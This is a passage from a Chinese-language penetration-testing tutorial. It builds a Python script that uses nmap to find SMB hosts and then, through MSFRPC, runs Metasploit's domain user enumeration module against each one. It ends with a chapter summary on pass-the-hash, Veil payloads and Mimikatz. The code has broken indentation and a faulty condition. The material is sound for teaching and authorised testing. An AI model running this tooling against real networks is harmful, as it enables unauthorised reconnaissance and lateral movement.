就像所有脚本一样，需要建立库，其中大部分你已经熟悉，最新的一个与 MSFRPC 相关的库是由`SpiderLabs`提供的。此脚本所需的库如下所示：

```py
import os, argparse, sys, time
try:
    import msfrpc
except:
    sys.exit("[!] Install the msfrpc library that can be found 
      here: https://github.com/SpiderLabs/msfrpc.git")
try:
    import nmap
except:
    sys.exit("[!] Install the nmap library: pip install python-nmap")
try:
    import netifaces
except:
    sys.exit("[!] Install the netifaces 
      library: pip install netifaces")
```

然后，我们构建一个模块，以识别将针对其运行辅助模块的相关目标。首先，我们设置构造函数和传递的参数。请注意，对于此脚本，我们有两个要测试的服务名称，`microsoft-ds`和`netbios-ssn`，因为根据`nmap`的结果，任何一个都可能代表端口 445。

```py
def target_identifier(verbose, dir, user, passwd, ips, port_num, ifaces, ipfile):
    hostlist = []
    pre_pend = "smb"
    service_name = "microsoft-ds"
    service_name2 = "netbios-ssn"
    protocol = "tcp"
    port_state = "open"
    bufsize = 0
    hosts_output = "%s/%s_hosts" % (dir, pre_pend)
```

之后，我们配置 nmap 扫描程序以通过文件或命令行扫描详细信息。请注意，`hostlist`是由文件加载的所有地址的字符串，并且它们用空格分隔。打开并读取`ipfile`，然后将所有新行替换为空格，因为它们被加载到字符串中。这是 nmap 库的特定`hosts`参数的要求。

```py
    if ipfile != None:
  if verbose > 0:
print("[*] Scanning for hosts from file %s") % (ipfile)
        with open(ipfile) as f:
            hostlist = f.read().replace('\n',' ')
        scanner.scan(hosts=hostlist, ports=port_num)
    else:
  if verbose > 0:
        print("[*] Scanning for host\(s\) %s") % (ips)
        scanner.scan(ips, port_num)
    open(hosts_output, 'w').close()
    hostlist=[]
    if scanner.all_hosts():
        e = open(hosts_output, 'a', bufsize)
    else:
        sys.exit("[!] No viable targets were found!") 
```

攻击系统上所有接口的 IP 地址都从测试池中删除。

```py
    for host in scanner.all_hosts():
        for k,v in ifaces.iteritems():
            if v['addr'] == host:
                print("[-] Removing %s from target list since it 
                    belongs to your interface!") % (host)
                host = None 
```

最后，详细信息被写入相关的输出文件和 Python 列表，然后返回到原始调用来源。

```py
        if host != None:
            e = open(hosts_output, 'a', bufsize)
            if service_name or service_name2 in 
              scanner[host][protocol][int(port_num)]['name']:
                if port_state in 
                    scanner[host][protocol][int(port_num)]['state']:
                    if verbose > 0:
                        print("[+] Adding host %s to %s since the service 
                            is active on %s") % (host, hosts_output, port_num)
                    hostdata=host + "\n"
                    e.write(hostdata)
                    hostlist.append(host)
    else:
        if verbose > 0:
               print("[-] Host %s is not being added to %s since the 
                   service is not active on %s") % 
                       (host, hosts_output, port_num)
    if not scanner.all_hosts():
        e.closed
    if hosts_output:
        return hosts_output, hostlist 
```

接下来的函数创建将要执行的实际命令；对于扫描返回的每个主机，将调用此函数作为潜在目标。

```py
def build_command(verbose, user, passwd, dom, port, ip):
    module = "auxiliary/scanner/smb/smb_enumusers_domain"
    command = '''use ''' + module + '''
set RHOSTS ''' + ip + '''
set SMBUser ''' + user + '''
set SMBPass ''' + passwd + '''
set SMBDomain ''' + dom +'''
run
'''
    return command, module
```

最后的函数实际上启动了与 MSFRPC 的连接，并针对特定主机执行相关命令。

```py
def run_commands(verbose, iplist, user, passwd, dom, port, file):
    bufsize = 0
    e = open(file, 'a', bufsize)
    done = False
```

脚本与 MSFRPC 建立连接，然后创建控制台，然后通过特定的`console_id`跟踪它。不要忘记，`msfconsole`可以有多个会话，因此我们必须将我们的会话跟踪到`console_id`。

```py
    client = msfrpc.Msfrpc({})
    client.login('msf','msfrpcpassword')
    try:
        result = client.call('console.create')
    except:
        sys.exit("[!] Creation of console failed!")
    console_id = result['id']
    console_id_int = int(console_id)
```

然后，脚本遍历了已确认具有活动 SMB 服务的 IP 地址列表。然后，脚本为每个 IP 地址创建了必要的命令。

```py
    for ip in iplist:
        if verbose > 0:
            print("[*] Building custom command for: %s") % (str(ip))
        command, module = build_command(verbose, user, 
          passwd, dom, port, ip)
        if verbose > 0:
            print("[*] Executing Metasploit module %s 
              on host: %s") % (module, str(ip)) 
```

然后将命令写入控制台，并等待结果。

```py
        client.call('console.write',[console_id, command])
        time.sleep(1)
        while done != True:
```

我们等待每个命令执行的结果，并验证返回的数据以及控制台是否仍在运行。如果是，我们延迟读取数据。一旦完成，结果将被写入指定的输出文件。

```py
            result = client.call('console.read',[console_id_int])
            if len(result['data']) > 1:
                if result['busy'] == True:
                    time.sleep(1)
                    continue
                else:
                    console_output = result['data']
                    e.write(console_output)
                    if verbose > 0:
                        print(console_output)
                    done = True
```

我们关闭文件并销毁控制台，以清理我们所做的工作。

```py
    e.closed
    client.call('console.destroy',[console_id])
```

脚本的最后部分涉及设置参数、设置构造函数和调用模块。这些组件与以前的脚本类似，这里没有包括，但详细信息可以在 GitHub 上的先前提到的位置找到。最后的要求是在`msfconsole`中加载`msgrpc`，并使用我们想要的特定密码。因此，启动`msfconsole`，然后在其中执行以下操作：

```py
load msgrpc Pass=msfrpcpassword
```

### 注意

命令没有输入错误，Metasploit 已经转移到`msgrpc`而不是`msfrpc`，但每个人仍然称其为`msfrpc`。最大的区别是`msgrpc`库使用 POST 请求发送数据，而`msfrpc`使用**可扩展标记语言**（**XML**）。所有这些都可以通过资源文件自动化设置服务。

# 总结

在本章中，我们重点介绍了一种在样本环境中移动的方法。具体来说，如何利用相关框，提升权限并提取额外的凭据。从这个位置，我们确定了其他可行的主机，我们可以横向移动到这些主机，并且目前登录到这些主机的用户。我们使用 Veil Framework 生成自定义有效载荷来绕过 HIPS，并执行了 PtH 攻击。这使我们能够使用 Mimikatz 工具从内存中提取其他凭据。然后，我们使用 Python 和 MSFRPC 自动识别了可行的次要目标和登录到这些目标的用户。这些内容可能会让人感到非常惊讶，无论是复杂性还是缺乏复杂性，这取决于你的期望。请记住，这将完全取决于你的环境以及实际破解所需的工作量。本章提供了许多与利用网络和基于系统的资源相关的细节，下一章将突出不同的角度，即 Web 评估。
